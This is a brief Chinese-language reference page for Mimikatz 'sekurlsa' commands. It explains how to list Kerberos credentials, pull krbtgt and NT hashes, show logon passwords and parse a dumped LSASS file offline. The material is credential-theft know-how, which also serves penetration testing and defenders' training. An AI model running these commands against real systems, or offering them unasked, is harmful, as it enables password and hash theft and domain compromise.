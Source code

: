 ## kerberos

列出Kerberos凭证
```
mimikatz # sekurlsa::kerberos
```

## krbtgt
检索krbtgt RC4（即NT哈希值）、AES128和AES256哈希值

```
mimikatz # sekurlsa::krbtgt
```

## livessp
列出了LiveSSP凭证。据微软称，LiveSSP供应商默认包含在Windows 8和更高版本中，并包含在Office 365登录助手中

```
mimikatz # sekurlsa::livessp
```

## logonpasswords
列出所有可用的提供者凭证。这通常显示最近登录的用户和计算机凭证

```
mimikatz # sekurlsa::logonpasswords
```

## minidump

可以针对转储的LSASS进程文件使用，它不需要管理权限。它被认为是一种 "离线 "转储。
```
mimikatz # sekurlsa::minidump file.dmp

mimikatz # sekurlsa::logonpasswords
```

## msv

通过针对MSV1_0 Authentication Package，转储和列出NT哈希值（和其他secrets）
```
mimikatz # sekurlsa::msv
```

## process

通过切换到LSASS进程的上下文，之后就可以使用sekurlsa::minidump命令

```
mimikatz # sekurlsa::minidump lsass.dump.dmp

mimikatz # sekurlsa::process
```
